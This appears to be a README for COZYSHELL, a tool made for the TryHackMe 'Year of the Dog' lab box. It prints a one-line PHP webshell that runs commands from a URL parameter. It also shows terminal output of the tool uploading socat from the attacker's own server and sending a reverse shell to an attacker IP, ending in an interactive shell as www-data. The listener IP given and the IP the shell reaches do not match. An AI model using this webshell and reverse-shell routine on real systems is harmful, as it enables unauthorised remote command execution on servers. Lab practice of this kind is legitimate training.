 
#COZYSHELL

  **Developed for the 'year of the dog' THM box, use it with caution and responsability**

- First we need to upload a webshell like the one bellow.
```php
  <?php echo shell_exec($_GET["cmd"]); ?>
```
```txt
┌──(root㉿kali)-[~/cozyshell]
└─# ../t.py -u http://10.10.44.102/
[*] Injecting webshell at http://10.10.44.102/cae822a9.php
[*] Success! We got a webshell as www-data
```
---
- Now we can quickly upgraded to a nice and cozy interactive shell
```
┌──(root㉿kali)-[~/cozyshell]
└─# ./cozyshell --url http://10.10.44.102/cae822a9.php --lhost 10.13.21.200 --lport 8443 
[*] Uploading socat binary to /var/www/html/c233735f
[*] Starting Webserver
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.44.102 - - [06/Jan/2024 18:56:53] "GET /bin HTTP/1.1" 200 -
[*] Finished uploading socat!
[*] Killing Webserver process
[*] Starting reverse shell handler on tty /dev/pts/1
[*] Paste CMD: export TERM=screen; stty rows 59 cols 116
[*] Sending encrypted reverse shell to 10.13.42.125:8443
<www/html$ export TERM=screen; stty rows 59 cols 116
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ ls
assets	c233735f  cae822a9.php	config.php  index.php
www-data@year-of-the-dog:/var/www/html$ exit
exit
[*] Finished executing interactive shell
[*] Success
```


